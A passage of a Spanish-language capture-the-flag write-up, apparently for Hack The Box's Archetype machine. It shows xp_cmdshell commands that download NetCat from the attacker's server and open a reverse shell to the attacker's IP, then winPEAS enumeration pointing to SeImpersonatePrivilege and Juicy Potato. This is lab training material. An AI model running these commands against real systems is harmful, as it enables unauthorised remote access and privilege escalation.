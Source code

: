 --> Vemos que estamos en `C:\Windows\system32`, por lo que aquí no podemos hacerlos ya que no somos el usuario Administrador.
Como no tenemos suficientes permisos aquí, vamos a buscar otra carpeta donde el usuario `ARCHETYPE\sql_svc` sí tenga permisos para escribir y poder subir el archivo, como en su carpeta personal. Vamos a hacerlo en la carpeta de Descargas del usuario.

- 5. Vamos a movernos al directorio de Descargas del usuario `sql_svc` y vamos a obtener el binario `nc64.exe` con el nombre de `nc64.exe` de nuestro servidor HTTP que montamos con Python con `wget`:
```SQL
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[My IP]/nc64.exe -outfile nc64.exe"
```

- 6. Una vez que ya hemos descargado el binario en `C:\Users\sql_svc\Downloads` de la máquina víctima, ya podemos vincular el proceso `cmd.exe` a través de NetCat a nuestro puerto de escucha de nuestro NetCat. Es decir, vamos a ir a la carpeta donde está el binario de NetCat para Windows, lo vamos a ejecutar y con el parámetro `-e` le vamos a especificar que ejecute el proceso `cmd.exe` cuando se establezca la conexión con nuestra IP atacante por el puerto 443 (el que tenemos en escucha con nuestro NetCat):
```SQL
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe [My IP] 443"
```

- 7. Ya podemos ir a la pestaña donde tenemos el NetCat en escucha en nuestra máquina y veremos que hemos recibido la conexión correctamente.
--> **MACHINE PWNED!**

15. **Una vez dentro del sistema, nos moveremos usando los comandos de la CMD de Windows. Llegamos hasta el Escritorio del usuario `sql_svc` y encontramos la flag de usuario, `user.txt`!. La imprimimos con `type user.txt`**

16. **Ahora vamos a Escalar Privilegios ayudándonos de una herramienta llamada [[WinPEAS - Windows Privilege Escalation Awesome Script]] que nos va a ayudar a automatizar gran parte del proceso de enumeración de la máquina víctima. Para aprender más sobre Escalada de Privilegios en Windows, podemos hacer el módulo [Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation) de HTB Academy.**
- 1. Descargamos [winPEAS.exe](https://github.com/peass-ng/PEASS-ng/releases/tag/20250301-c97fb02a) desde el GitHub oficial en nuestra máquina atacante
- 2. Volvemos a montar desde nuestra máquina atacante un servidor HTTP por el puerto 80 en la carpeta donde hemos descargado winPEAS
- 3. Desde la Reverse Shell que tenemos abierta de la máquina víctima, obtenemos el archivo de winPEAS como obtuvimos el de NetCat (usando la PowerShell):
```cmd
powershell
```
```powershell
wget http://[My IP]/winPEASx64.exe -outfile winPEASx64.exe
```
- 4. Ahora ejecutamos la herramienta:
```powershell
.\winPEASx64.exe
```
- 5. Nos da una salida enorme porque comprueba mil cosas, pero nos vamos a fijar en la parte de `Current Token privileges`, donde vemos que tenemos un `SeImpersonatePrivilege`, que es vulnerable al Exploit Juicy Potato, pero primero vamos a comprobar la parte de `Searching known files that can contain creds in home`, porque nos muestra 2 archivos que pueden contener credenciales.
